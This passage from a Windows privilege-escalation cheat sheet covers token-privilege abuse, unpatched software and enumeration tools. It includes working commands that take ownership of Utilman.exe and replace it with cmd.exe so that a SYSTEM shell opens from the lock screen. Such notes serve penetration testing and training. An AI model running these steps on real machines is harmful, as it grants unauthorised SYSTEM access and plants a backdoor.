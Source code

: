 #### SeTakeOwnership
Allows taking ownership of any file. Replace `Utilman.exe` with `cmd.exe`:
```cmd
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant USER:F
copy cmd.exe Utilman.exe
```
Lock the screen and click the "Ease of Access" icon for a SYSTEM shell.

#### SeImpersonate / SeAssignPrimaryToken
Allows impersonating other users. Services like IIS or SYSTEM services using LOCAL SERVICE or NETWORK SERVICE can be abused using tools like `RogueWinRM`.

### Abusing Vulnerable Software

#### Unpatched Software
List installed software and versions:
```cmd
wmic product get name,version,vendor
```
Search for exploits on:
- [exploit-db.com](https://www.exploit-db.com/)
- [packetstormsecurity.com](https://packetstormsecurity.com/)

### Tools of the Trade

#### WinPEAS
Comprehensive enumeration script for privilege escalation:
```cmd
winpeas.exe > output.txt
```

#### PrivescCheck
PowerShell script for checking common privilege escalation misconfigurations.

---
